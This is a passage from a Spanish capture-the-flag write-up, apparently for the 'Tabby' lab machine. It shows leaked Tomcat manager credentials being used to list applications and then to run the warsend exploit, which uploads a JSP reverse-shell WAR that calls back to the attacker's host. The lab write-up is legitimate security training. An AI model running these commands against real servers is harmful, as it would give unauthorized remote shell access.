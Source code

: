 Una vez `logueados` podemos ver el `panel administrativo`

![](/assets/img/Tabby/image_4.png)

## Intrusión

`Listamos` las `aplicaciones` que están corriendo

```
# curl -s -X GET -u 'tomcat:$3cureP4s5w0rd123!' http://10.129.182.100:8080/manager/text/list
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:0:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```

No tenemos acceso a  `http://10.129.182.100:8080/manager/html`, sin embargo, si que tenemos acceso a `http://10.129.182.100:8080/manager/text` que es la `api` de `Tomcat`, mediante la cual podemos `subir` un archivo `.war` para `ganar acceso` a la `máquina víctima`, lo que estaríamos haciendo sería `crear` una nueva `aplicación`. He usado el `exploit` de [https://github.com/thewhiteh4t/warsend](https://github.com/thewhiteh4t/warsend) para `automatizar` el `proceso`

```
# /exploit.sh 10.10.16.23 8090 10.129.182.100 8080 tomcat '$3cureP4s5w0rd123!' revshell 

 _       _____    ____  _____                __
| |     / /   |  / __ \/ ___/___  ____  ____/ /
| | /| / / /| | / /_/ /\__ \/ _ \/ __ \/ __  /
| |/ |/ / ___ |/ _, _/___/ /  __/ / / / /_/ /
|__/|__/_/  |_/_/ |_|/____/\___/_/ /_/\__,_/

[>] Created By : thewhiteh4t
[>] Version    : 1.0.0

[+] LHOST                  : 10.10.16.23
[+] LPORT                  : 8090
[+] RHOST                  : 10.129.182.100
[+] RPORT                  : 8080
[+] Username               : tomcat
[+] Password               : $3cureP4s5w0rd123!
[+] Reverse Shell Filename : revshell
[+] Payload                : java/jsp_shell_reverse_tcp

[!] Checking Dependencies...

[!] Testing Tomcat Manager Text API Access...

```